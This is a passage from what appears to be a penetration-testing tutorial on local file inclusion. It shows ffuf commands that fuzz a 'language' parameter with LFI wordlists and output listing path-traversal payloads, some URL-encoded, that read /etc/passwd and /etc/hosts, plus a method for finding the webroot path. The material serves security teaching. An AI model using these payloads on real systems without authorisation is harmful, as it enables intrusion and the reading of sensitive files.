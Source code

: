 <p>There are a number of <a href="https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI">LFI Wordlists</a> we can use for this scan. A good wordlist is <a href="https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt">LFI-Jhaddix.txt</a>, as it contains various bypasses and common files, so it makes it easy to run several tests at once. We can use this wordlist to fuzz the <code>?language=</code> parameter we have been testing throughout the module, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&amp;=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
</code></pre>
<p>As we can see, the scan yielded a number of LFI payloads that can be used to exploit the vulnerability. Once we have the identified payloads, we should manually test them to verify that they work as expected and show the included file content.</p>
<hr/>
<h2>Fuzzing Server Files</h2>
<p>In addition to fuzzing LFI payloads, there are different server files that may be helpful in our LFI exploitation, so it would be helpful to know where such files exist and whether we can read them. Such files include: <code>Server webroot path</code>, <code>server configurations file</code>, and <code>server logs</code>.</p>
<h4>Server Webroot</h4>
<p>We may need to know the full server webroot path to complete our exploitation in some cases. For example, if we wanted to locate a file we uploaded, but we cannot reach its <code>/uploads</code> directory through relative paths (e.g. <code>../../uploads</code>). In such cases, we may need to figure out the server webroot path so that we can locate our uploaded files through absolute paths instead of relative paths.</p>
<p>To do so, we can fuzz for the <code>index.php</code> file through common webroot paths, which we can find in this <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt">wordlist for Linux</a> or this <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt">wordlist for Windows</a>. Depending on our LFI situation, we may need to add a few back directories (e.g. <code>../../../../</code>), and then add our <code>index.php</code> afterwords.</p>
<p>The following is an example of how we can do all of this with ffuf:</p>
<pre><code class="language-shell-session">[!bash!]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=../../../../FUZZ/index.php' -fs 2287
